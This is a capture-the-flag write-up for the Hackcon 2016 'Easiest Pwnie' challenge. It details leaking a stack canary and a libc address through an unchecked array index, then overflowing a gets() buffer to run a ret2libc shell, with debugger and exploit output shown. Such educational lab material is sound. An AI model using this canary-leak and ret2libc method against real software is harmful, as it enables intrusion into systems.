





# Hackcon 2016 : Easiest Pwnie? Not so much!

**Category:** pwn
**Points:** 250
**Author:** [Sudhakar Verma](https://github.com/sudhackar)
**Description:**

Get the pwnie here: [pwnie](pwnie).

**Server Specifics:**

0x08 is a bad char. Your exploit shouldn't contain 0x08 in it to accept.

## Write-up

Tools I used for this challenge include [radare2](https://github.com/radare/radare2),
[gdb(-peda)](https://github.com/longld/peda), [qira](https://github.com/BinaryAnalysisPlatform/qira),
[libc-database](https://github.com/niklasb/libc-database) and [checksec](http://www.trapkit.de/tools/checksec.html).
This challenge was introduced with a different binary, which
was changed close to the beginning. However we didn't noticed this change until
several hours later and it cost us quite a lot of time. Nevertheless
it was a relatively easy exploiting challenge with a wide range of hardening
measures.

We are starting off by analysing the binary with the file command:
	
	$ file ./pwnie
	pwnie: ELF 32-bit LSB executable, Intel 80386,..., dynamically linked, not stripped	

Additionally we check for potential security measures with checksec:

	$ checksec.sh --file ./pwie
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   pwnie

So we're dealing with a 32-bit executable which is armed with stack-canaries and
a not executable stack, however it lacks ASLR protection.

If we let it run we're presented with a challenge:

	$ ./pwnie
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	42
	42
	Sorry was supposed to be 0

We have to serve two number's and in case of the correct combination we might be
rewarded with a "gets" call. Let's have look with our favorite disassembler
radare2 and keep in mind that it might have smth. to do with the Fibonacci series:

	$ r2 -A ./pwnie
	[0x08048470]> afl
	0x080483b8    3 35           sym._init
	0x080483f0    2 16   -> 32   sym.imp.printf
	0x08048400    2 16   -> 48   sym.imp.gets
	0x08048410    2 16   -> 48   sym.imp.__stack_chk_fail
	0x08048420    2 16   -> 48   sym.imp.puts
	0x08048430    2 16   -> 48   sym.imp.__libc_start_main
	0x08048440    2 16   -> 48   sym.imp.setvbuf
	0x08048450    2 16   -> 48   sym.imp.__isoc99_scanf
	0x08048460    1 16           sub.__gmon_start___252_460
	0x08048470    1 34           entry0
	0x080484a0    1 4            sym.__x86.get_pc_thunk.bx
	0x080484b0    4 43           sym.deregister_tm_clones
	0x080484e0    4 53           sym.register_tm_clones
	0x08048520    3 30           sym.__do_global_dtors_aux
	0x08048540    4 43   -> 40   sym.frame_dummy
	0x0804856b    4 61           sym.fibb
	0x080485a8    4 64           sym.genf
	0x080485e8    6 257          sym.main
	0x080486f0    4 93           sym.__libc_csu_init
	0x08048750    1 2            sym.__libc_csu_fini
	0x08048754    1 20           sym._fini
	[0x08048470]> VV @ sym.main

So let's have a look at the main function:

We can see that it prints the challenge and calls the `sym.genf` function.
I skip the reversing part here and just tell you that genf potentially
stands for "generate Fibonacci", which calculates the first 10 elements in the
Fibonacci series and stores them into a dword array pointet to by the first
argument, in this case `esp+0x28`.
Afterwards we can give an input of two dwords, let's see what
happens to them:

As we can see our first value is used as an index into the Fibonacci table with
this SIB-style access: `mov edx, dword [esp + eax*4 + 0x28]`.
The buffer base is at esp+0x28 and indexed in dword steps (4-bytes) upwards.
If our second value equals the Fibonacci value at this index, we get our
promised `gets` call to `esp+0x52`. In the other case we are provided with the
expected value at the particular index and the challenge is repeated.

We notice two vulnerabilities here, first of all our index isn't checked at all,
which gives us a dword memory read in the range of [`(esp+0x28)-(2**32)*4`, `(esp+0x28)+(2**32)*4`].
Secondly we have the malicious `gets` call, in case you're not that familiar
with C language, I would suggest you take a look into `man 3 gets` (see BUGS).
Long story short  we have a classic buffer overflow, however we still have to
overcome the stack canary hurdle.

Thanks to our memory leak this should be feasible though. Our game plan looks
like this:

	1. Find offset from Stack canary to esp+0x28
	2. Leak stack-canary with the correct index
	3. Provide a correct answer to the Fibonacci challenge
	4. Overwrite the return instruction pointer

For the first step we use the [qira](https://github.com/BinaryAnalysisPlatform/qira)
debugger:
	
	$ qira -Ss ./pwnie
	$ nc localhost 4000
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	9
	4
	Sorry was supposed to be 34	

We open the debugger view in the browser:

I moved the eip to the point where the canary was written to the stack.
We can see that eax holds the canary, which is 0xcecb5000 in this case and it
has been placed to 0xf6fff4bc `0xf6fff4bc <-- 0xcecb5000`.
We can also see that ebp points to 0xf6fff4c8, which gives us an offset from
12 bytes between canary and ebp. However this offset depends on the stack
alignment, as `and esp, 0xfffffff0` removes the last 4 bits of esp, thereby
our offset between canary and ebp can vary between 0 and 15 bytes.
Nevertheless we were looking for the canary index based on the Fibonacci array.
We could calculate this offset with our static analysis, or we could have a look
into qira, both ways are pretty straights forward. In qira we move the eip to
the array access `mov edx, dword ptr [esp + eax*4 + 0x28]`. And we can see that
index 9 gave us an access to `0xf6fff4ac -- 0x22`:

If we take a closer look to the stack view at the bottom we can already see our
canary, so by simple counting we can figure out the correct index is 13.
So lets build our first exploit, which should do the following:

1. Give the canary index and wrong value to the challenge -> 13 4
2. Read the leaked canary
3. Give a correct answer to the challenge -> 1 1
4. Fill the whole buffer provided to gets -> (esp+0x5c)-(esp+0x52) = 10 => 10 * 'A'
5. Overwrite the canary correctly
6. Fill the alignment space -> "B" * 8
7. Overwrite the ebp -> "C" * 4
8. Overwrite the rip -> 0xdeadbeef

You can find the final exploit in pwnie_pwn.py, but here is the output till this
point:

	$ ./pwnie_pwn.py
	[+] Opening connection to localhost on port 4000: Done
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	[*] Sending wrong answer: 13 4
	[*] Canary: 0x2f091200
	[*] Switching to interactive mode
	
	qemu: uncaught target signal 11 (Segmentation fault) - core dumped
	[*] Got EOF while reading in interactive

So let's have a look in qira and see what was happening:

We can immediately see that it worked out the way we wanted, we overwrote the
canary correctly and the eip points to 0xdeadbeef.

Looks like we're ready to pop a shell... But wait there was some kind of hint in
the description:

> 0x08 is a bad char. Your exploit shouldn't contain 0x08 in it to accept.

This is kind of deal breaker, as 0x08 is the beginning of every code address in
x86 on the 32-bit architecture, this leaves us a ret2libc as the only option.
Thereby we have to identify the libc used on the target system, as well as one
symbol we can leak in order to get the libc base address.

Instead of using the GOT/PLT to leak some symbols and find the libc we have to
find another way. There we're different approaches used, but I try to explain
the intended way here.
First of all we need some kind of info about the libc base address, in order to
do that we can have a look at the stack and see if smth. interesting is laying
around there.
Obviously the return instruction pointer of the main function points back
into the libc, precisely into `__libc_start_main`. In order to find out which
offset from the entry point of `__libc_start_main` is stored into the rip, I use
gdb here (later I noticed this is actually the return instruction of `__libc_start_main`,
which is already displayed by the libc-database).

	$ gdb ./pwnie
	gdb-peda$ break *0x080486fe (ret instruction from main)
	Breakpoint 1 at 0x80486fe
	gdb-peda$ run
	Starting program: /home/mightymo/CTF/2016/hackcon.in/pwnie/pwnie 
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	1
	1
	Yea you cool.
	foo
	...
	ESP: 0xffffd48c --> 0xf7e21a63 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
	...

We can see that the esp points to `__libc_start_main+243`, so if we leak the
rip of main and subtract 243 we get the address of `__libc_start_main`.
If you have a look at the qira view above you can see the index for the canary
was 13, we have to add 2 dwords for alignment space and 1 dword for the ebp, so
the index for the rip is 17.
We can add this to our exploit:

	$ ./pwn_pwnie.py
	[+] Opening connection to localhost on port 4000: Done
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	[*] Sending wrong answer: 13 4
	[*] Canary: 0x6568d000
	[*] Sending wrong answer: 17 4
	[*] main rip: 0xf6623a63
	[*] __libc_start_main @ 0xf6623970
	[*] Switching to interactive mode
	
	qemu: uncaught target signal 11 (Segmentation fault) - core dumped
	[*] Got EOF while reading in interactive

In the next step we have to find out which libc is used on the target machine in
order to find out the offset from `__libc_start_main` to the libc base.
This was a really tricky part and somebody even dumped the whole libc with the
memory leak. The intended way was to identify the target's machine ip address as
an Amazon Web Service (aws) machine with a customized aws image, which was
a little bit far fetched in my opinion. Nevertheless using this info we still
need to find out which Linux distro is used in order to identify the image, but
strings does this job for us:

	$ strings pwnie | grep GCC                                                                                              20:36:10  
	GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4

We can now download the libc [.deb](http://security.ubuntu.com/ubuntu/pool/main/e/eglibc/libc6-i386_2.19-0ubuntu6.9_amd64.deb)
packet for the particular aws-image
(http://ap-southeast-1.ec2.archive.ubuntu.com/ubuntu/ trusty-updates/main libc6 i386 2.19-0ubuntu6.9)
(md5sum=545e272e432d8947b85d3f0beff7071f), but I already provided the [libc-2.19.so](libc-2.19.so).

Having the libc we can now search in the libc-database and receive our offsets:

	$ ./identify libc-2.19.so
	id libc6-i386_2.19-0ubuntu6.9_amd64
	$ cat ./dump | grep names
	names="__libc_start_main_ret system dup2 read write str_bin_sh __libc_start_main"
	...
	$ ./dump libc6-i386_2.19-0ubuntu6.9_amd64
	offset___libc_start_main_ret = 0x19ad3
	offset_system = 0x0003fe70
	offset_dup2 = 0x000da1c0
	offset_read = 0x000d9880
	offset_write = 0x000d9900
	offset_str_bin_sh = 0x15da8c
	offset___libc_start_main = 0x000199e0

You can do the same with your local libc in order to test your exploit locally.
With those offsets we can create our final ret2libc payload. According to the
System-V calling convention we push system's address at the rip position and
the address of /bin/sh on spot above. The final exploit is in pwn_pwnie.py:

	$ ./pwn_pwnie.py
	[+] Starting local process './pwnie': Done
	[4061]
	[*] Paused (press any to continue)
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	[*] Sending wrong answer: 13 4
	[*] Canary: 0xb928900
	[*] Sending wrong answer: 17 4
	[*] main rip: 0xf757fa63
	[*] __libc_start_main @ 0xf757f970
	[*] libc-base @ : 0xf7566000
	[*] system @ : 0xf75a43e0
	[*] /bin/sh @ 0xf76c5a89
	[*] Switching to interactive mode
	
	$ ls
	libc-2.19.so  pwnie  pwnie_pwn.py
	$ 

Here we go \o/

All in all this was quite a easy challenge, apart from the libc identification
and the 0x08 char stuff.
In my opinion they should have provided any hint or leak for the libc, but maybe
there's an easier option and I simply didn't get it;-)

	
## Other write-ups and resources

 https://github.com/uafio/git/blob/master/scripts/hackconCTF-easiest-pwnie.py
